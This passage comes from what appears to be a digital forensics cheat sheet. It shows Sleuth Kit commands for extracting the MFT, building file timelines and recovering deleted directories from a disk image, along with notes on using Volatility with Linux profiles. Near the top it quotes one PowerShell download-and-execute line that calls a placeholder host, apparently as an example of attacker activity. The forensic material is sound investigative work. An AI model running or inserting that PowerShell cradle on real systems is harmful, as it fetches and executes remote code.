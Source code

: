 ```IEX(New-Object System.Net.WebClient).downloadstring(‘http://example.com/foo.exe’)```

**Output MFT timeline**: The master file table (MFT) contains a lot of good information about file creation and changes on the disk. It will also contain both the $STANDARD_INFORMATION and $FILENAME timestamps for the file.

Run the following (the MFT inode is always 0);

`icat -o 718848 DomainController.raw 0 > mft.raw`

`icat` can be used just like `cat` on the linux cmdline and used similar to above to output any file you can find. 

`analyzeMFT.py -f mft.raw -e -o mft.csv`

The `-e` switch in the above command outputs the times in a UTC format rather than epoch time. 

**Output a file list**: This may be useful to just see obviously suspicious files especially if the names stick out or you know the filesystem you're working with. 

`fls -o 718848 DomainController.raw -r -p > c_filelist.txt`

**Output file timeline**: This timeline will only contain the mactimes and would be hard to see time-stompping. If that is a concern then you can always look into the `mft.csv`.

`fls -o 718848 DomainController.raw -r -p -m C:/ > bodyfile.body`

Then run;

`mactime -z -b bodyfile.body -d -y [2019-01-01] > fls_timeline.csv`

In the above command if `[2019-01-01]` is left out then it will give the entire timeline or if you're only interested in a period then you can look at a range `[2019-01-01..2019-01-24]`.

**Recover directories**: You may want to recover a directory, particularly the `$OrphanFiles` which may contain files deleted by the attacker. 

`mkdir recovered_recyclebin`

`tsk_recover -o 718848 DomainController.raw -e -d 84736 recovered_recyclebin/`

<a name="volatility"></a>
### Volatility 
[*back to table of contents*](#b2t)

<a name="volatilityonlinux"></a>
#### Volatility on Linux Machines

The process itself is the same but setting up the profile may be difficult. I have written a blog for a beginner task which explains it all [here](https://cybercodebear.github.io/forensic_tasks/beginner_linux_forensics)

Remember the following key points:
- You and check if your profile is available with `volatility --info |grep Linux`
- The plugins are pretty much the same they just look like `linux_pslist`. A full list can be seen with `volatility --info|grep linux`

***LINUX-SIFT***

**Volatility References**: The volatility github page provides a list of the basic commands and examples of how they are used. <https://github.com/volatilityfoundation/volatility/wiki/Command-Reference>

```